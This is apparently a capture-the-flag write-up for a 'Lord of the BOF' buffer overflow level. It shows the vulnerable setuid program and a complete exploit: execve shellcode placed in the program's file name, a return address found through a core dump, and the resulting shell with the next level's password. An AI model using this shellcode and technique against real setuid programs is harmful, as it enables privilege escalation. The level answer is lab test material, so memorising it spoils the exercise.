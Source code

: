 # Level8

## This level's goal
- LEVEL8 (orge -> troll) : check argc

***

```
[orge@localhost orge]$ bash2

[orge@localhost orge]$ ls -l
total 20
-rwsr-sr-x    1 troll    troll       12693 Mar  1  2010 troll
-rw-r--r--    1 root     root          772 Mar 29  2010 troll.c

[orge@localhost orge]$ cat troll.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```

In the code, there is some changed code that you can only use argv[0] and argv[1]. Also, argv[1] will be reset.

So, you need to input the shell code in the filename and return the argv[0]'s address.

```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` troll
rename: renaming troll to 1ÀPh//shh/bin‰ãPS‰á‰Â°
                                                Í€ failed: No such file or directory
```

There is the error cuz \x2f will be read "/" in the shell code

So, I will use another shell code.   
`\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81`

```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` troll
[orge@localhost orge]$ mkdir tmp
[orge@localhost orge]$ cp `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` tmp/
[orge@localhost orge]$ ./tmp/`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\xff\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÿÿÿ¿
Segmentation fault (core dumped)
[orge@localhost orge]$ gdb -c core -q
Core was generated by `./tmp/ë^1É±2€lÿ€éuöëèêÿÿÿ2ÁQi00tii0cjoŠäQTŠâš±
Î    '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfffffff in ?? ()
0xbffffb60:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffb70:     0x742f2e00      0x902f706d      0x90909090      0x90909090
0xbffffb80:     0x90909090      0x90909090      0xeb909090      0xc9315e11
0xbffffb90:     0x6c8032b1      0x8001ff0e      0xf67501e9      0xeae805eb

[orge@localhost orge]$ ./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\x80\xfb\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA€ûÿ¿
bash$ my-pass
euid = 508
aspirin
```
